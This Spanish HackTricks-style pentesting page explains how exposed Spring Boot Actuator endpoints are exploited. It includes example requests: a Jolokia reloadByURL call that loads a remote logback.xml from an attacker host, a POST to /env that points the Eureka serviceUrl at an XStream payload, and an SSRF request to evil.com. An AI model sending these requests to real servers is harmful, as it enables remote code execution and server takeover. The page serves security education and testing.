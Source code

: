 # Actuadores de Spring

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos en** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
{% endhint %}

## **Bypass de Autenticación de Spring**

<figure><img src="../../.gitbook/assets/image (927).png" alt=""><figcaption></figcaption></figure>

**De** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)\*\*\*\*

## Explotando Actuadores de Spring Boot

**Consulta la publicación original en** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Puntos Clave:**

* Los Actuadores de Spring Boot registran puntos finales como `/health`, `/trace`, `/beans`, `/env`, etc. En las versiones 1 a 1.4, estos puntos finales son accesibles sin autenticación. A partir de la versión 1.5, solo `/health` y `/info` son no sensibles por defecto, pero los desarrolladores a menudo desactivan esta seguridad.
* Ciertos puntos finales de Actuador pueden exponer datos sensibles o permitir acciones dañinas:
* `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, y `/heapdump`.
* En Spring Boot 1.x, los actuadores se registran bajo la URL raíz, mientras que en 2.x, están bajo la ruta base `/actuator/`.

### **Técnicas de Explotación:**

1. **Ejecución Remota de Código a través de '/jolokia'**:
* El punto final del actuador `/jolokia` expone la Biblioteca Jolokia, que permite el acceso HTTP a MBeans.
* La acción `reloadByURL` puede ser explotada para recargar configuraciones de registro desde una URL externa, lo que puede llevar a XXE ciego o Ejecución Remota de Código a través de configuraciones XML manipuladas.
* URL de ejemplo para explotación: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Modificación de Configuración a través de '/env'**:
* Si las Bibliotecas de Spring Cloud están presentes, el punto final `/env` permite la modificación de propiedades ambientales.
* Las propiedades pueden ser manipuladas para explotar vulnerabilidades, como la vulnerabilidad de deserialización de XStream en el Eureka serviceURL.
*   Ejemplo de solicitud POST de explotación:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65

eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
3. **Otras Configuraciones Útiles**:
* Propiedades como `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, y `spring.datasource.tomcat.max-active` pueden ser manipuladas para varios exploits, como inyección SQL o alteración de cadenas de conexión a la base de datos.

### **Información Adicional:**

* Una lista completa de actuadores por defecto se puede encontrar [aquí](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
* El punto final `/env` en Spring Boot 2.x utiliza formato JSON para la modificación de propiedades, pero el concepto general sigue siendo el mismo.

### **Temas Relacionados:**

1. **Env + H2 RCE**:
* Los detalles sobre la explotación de la combinación del punto final `/env` y la base de datos H2 se pueden encontrar [aquí](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).
2. **SSRF en Spring Boot a través de la Interpretación Incorrecta de Nombres de Ruta**:
* El manejo de parámetros de matriz (`;`) en nombres de ruta HTTP por parte del marco de Spring puede ser explotado para Server-Side Request Forgery (SSRF).
*   Ejemplo de solicitud de explotación:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos en** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
</details>
{% endhint %}
